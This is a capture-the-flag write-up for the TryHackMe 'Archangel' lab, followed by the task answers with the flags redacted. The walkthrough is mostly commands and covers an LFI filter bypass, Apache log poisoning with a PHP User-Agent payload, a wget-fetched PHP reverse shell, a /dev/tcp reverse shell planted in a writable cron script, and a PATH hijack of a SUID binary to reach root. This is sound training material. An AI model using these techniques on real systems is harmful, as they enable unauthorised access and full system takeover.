









## Enumeration

### Nmap Scan

First, we run an nmap scan:

```bash
nmap -p- -vv 10.49.164.244

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

We have Port 80 open, so let's visit the web app with Burp Suite as the proxy to capture HTTP history.

### Web Application Discovery

On the home page, we find the answer to our first question by seeing the support email mentioned - `support@mafialive.thm`.



Next, let's add this domain to our `/etc/hosts` file and explore the web application.

```bash
echo "TARGET_IP   mafialive.thm" >> /etc/hosts
```

Now, let's visit `mafialive.thm` in our browser, and as soon as we do we get our Flag 1 - `thm{*redacted*}`.



### Directory Fuzzing

Since we don't have much to explore, let's try fuzzing directories using `ffuf`.

```bash
# Also fuzzing for common extensions like php, html, etc.
ffuf -u http://mafialive.thm/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 1000 -e .php,.html,.txt,.db,.bak -s

test.php
robots.txt
index.html
```

Here, `test.php` looks interesting. Let's visit this page and see what's inside.


It looks like a test page that is not ready to be deployed. This also answers our third question, as `test.php` is the page under development.

## Initial Access

### LFI Discovery

Moving ahead, we see a button on the same page. Clicking it shows the endpoint `http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php`.

The `/var/www/html/development_testing/mrrobot.php` path is an internal file path, which directly points us to Local File Inclusion (LFI). We can use this vulnerability to read internal files and even gain RCE.



Failed attempts of exploitation:

```
test.php?view=/etc/passwd
test.php?view=../../etc/passwd
```

It looks like there are some filtering protections on the target. We need to get the source code of the application to bypass it.

### Source Code Analysis

After trying various PHP filters, we eventually get:

```bash
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4KICAgIDxoMT5UZXN0IFBhZ2UuIE5vdCB0byBiZSBEZXBsb3llZDwvaDE+CiAKICAgIDwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iL3Rlc3QucGhwP3ZpZXc9L3Zhci93d3cvaHRtbC9kZXZlbG9wbWVudF90ZXN0aW5nL21ycmmlldyJdKSl7CgkgICAgaWYoIWNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcuLi8uLicpICYmIGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcvdmFyL3d3
---SNIP---
```

Let's base64 decode to get the source script:

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{REDACTED}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>

</html>
```

From the source code, we also get our next flag - `thm{REDACTED}`.

### Filter Bypass

Next, we can see the filter:

```html
if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
```

1. Disallowed use of `../..`
2. Must contain the path `/var/www/html/development_testing`

So, let's use `view=/var/www/html/development_testing/..//..//..//..//etc/passwd` to see if it bypasses the filter - and it does!



## Exploitation

### Log Poisoning

Next, let's try to get a reverse shell by poisoning the Apache log files. First, let's see if we can read these logs.

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
```



Next, we inject the payload in our User-Agent and resend the request.

```
User-Agent: <?php system($_GET['c']); ?>
```


### Reverse Shell

Now, let's copy and setup our reverse shell script:

```bash
┌──(kali㉿kali)-[~/CTF/THM]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```



Edit the local IP and the listening port, then let's start a Python server so that the remote server can access this file.

```bash
┌──(kali㉿kali)-[~/CTF/THM]
└─$ python3 -m http.server <PORT>
```

Now, let's send this file to the server using `wget`:

```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&c=wget http://IP:PORT/shell.php
```

Alright, now we need to trigger the reverse shell. But before that, let's start a listener locally on the port we mentioned in the reverse shell script.

```bash
rlwrap nc -lnvp 1337
```

To trigger the payload, visit `http://mafialive.thm/shell.php`.



We have the shell! To stabilize the shell, use:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## User Flag

We navigate to the `/home/archangel` directory and find `user.txt`. That is the user flag - `thm{REDACTED}`.



We also have 2 more interesting directories - 

```bash
drwxr-xr-x 2 archangel archangel 4096 Nov 18  2020 myfiles
drwxrwx--- 2 archangel archangel 4096 Nov 19  2020 secret
```

Let's see what's inside them:

```bash
www-data@ubuntu:/home/archangel$ ls -la myfiles
ls -la myfiles
total 12
drwxr-xr-x 2 archangel archangel 4096 Nov 18  2020 .
drwxr-xr-x 6 archangel archangel 4096 Nov 20  2020 ..
-rw-r--r-- 1 root      root        44 Nov 18  2020 passwordbackup
www-data@ubuntu:/home/archangel$ ls -la secret
ls -la secret
ls: cannot open directory 'secret': Permission denied
```

So, we have the `passwordbackup` file and the `secret` folder that we cannot open.

Inside passwordbackup:

```bash
www-data@ubuntu:/home/archangel$ cat myfiles/passwordbackup
cat myfiles/passwordbackup
https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

Nice RickRoll!

## Privilege Escalation

### Horizontal Escalation (Cron Job)

Let's try some privilege escalation methods.

```bash
sudo -l # didn't work

cat /etc/crontab

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

Interesting! We have `/opt/helloworld.sh` executed as `archangel` every minute. Let's see if it's editable.

```bash
www-data@ubuntu:/etc$ ls -la /opt/helloworld.sh
ls -la /opt/helloworld.sh
-rwxrwxrwx 1 archangel archangel 66 Nov 20  2020 /opt/helloworld.sh
```

Sweet! Now, we'll replace its content with:

```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Save the file, make sure it has all permissions, and start a netcat listener. Wait for a minute or so for the cron job to run, then run the following command to get a reverse shell.

```bash
rlwrap nc -lnvp 4444
```



Now, we can see the contents inside `secret/` folder.

```bash
archangel@ubuntu:~/secret$ ls -la
ls -la
total 32
drwxrwx--- 2 archangel archangel  4096 Nov 19  2020 .
drwxr-xr-x 6 archangel archangel  4096 Nov 20  2020 ..
-rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup
-rw-r--r-- 1 root      root         49 Nov 19  2020 user2.txt
archangel@ubuntu:~/secret$ cat user2.txt
cat user2.txt
thm{REDACTED}
```

That's our second user flag - `thm{REDACTED}`.

### Vertical Escalation (SUID Binary)

Now, for root access. Let's first see what this `backup` file is, as it has the SUID bit set.

```bash
archangel@ubuntu:~/secret$ file backup
file backup
backup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9093af828f30f957efce9020adc16dc214371d45, for GNU/Linux 3.2.0, not stripped
```

Okay, let's transfer this ELF to our local machine so that we can decompile it. We'll use a Python server on the remote machine and wget on the local machine for the transfer.

Once decompiled, we can see that:

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
    setuid(0);
    setgid(0);
    system("cp /home/user/archangel/myfiles/* /opt/backupfiles");
    return 0;
}
```

The `backup` file is owned by root and can be executed with root privileges.

**Exploitation Steps:**

1. Create a new `cp` command
2. Embed `/bin/bash -i` command into it to gain an interactive shell while executing the command with root privileges
3. Make it executable
4. Export the new path to make backup run the newly created `cp` command over the existing `cp` command
5. Run `./backup`
6. Gain root access!

Save the following file as `cp`:
```bash
#!/bin/bash
/bin/bash -i
```

Then, in your terminal, run the command `chmod +x cp`.

Now, let's export the new path:

```bash
export PATH=/home/archangel/secret:$PATH
```

Now, let's run the backup executable, and we gain root access.

```bash
archangel@ubuntu:~/secret$ ls
ls
backup
cp
user2.txt
archangel@ubuntu:~/secret$ ./backup
./backup
bash: cannot set terminal process group (3578): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:~/secret# 
```

## Root Flag

Finally, let's get the `/root/root.txt` flag - `thm{REDACTED}`

```bash
root@ubuntu:~/secret# cd /root
cd /root
root@ubuntu:/root# cat root.txt
cat root.txt
thm{REDACTED}
root@ubuntu:/root#
```

Challenge solved!


## References

1. https://aditya-chauhan17.medium.com/local-file-inclusion-lfi-to-rce-7594e15870e1
2. https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet

---


## Answers

### Task 1 - Deploy Machine

1. Connect to OpenVPN and deploy the machine

   *No Answer Needed*

### Task 2 - Get a Shell

1. Find a different hostname

   **Ans.** *mafialive.thm*

2. Find flag 1

   **Ans.** *thm{**redacted**}*

3. Look for a page under development

   **Ans.** *test.php*

4. Find flag 2

   **Ans.** *thm{**redacted**}*

5. Get a shell and find the user flag

   **Ans.** *thm{**redacted**}*

### Task 3 - Root the Machine

1. Get User 2 flag

   **Ans.** *thm{**redacted**}*

2. Root the machine and find the root flag

   **Ans.** *thm{**redacted**}*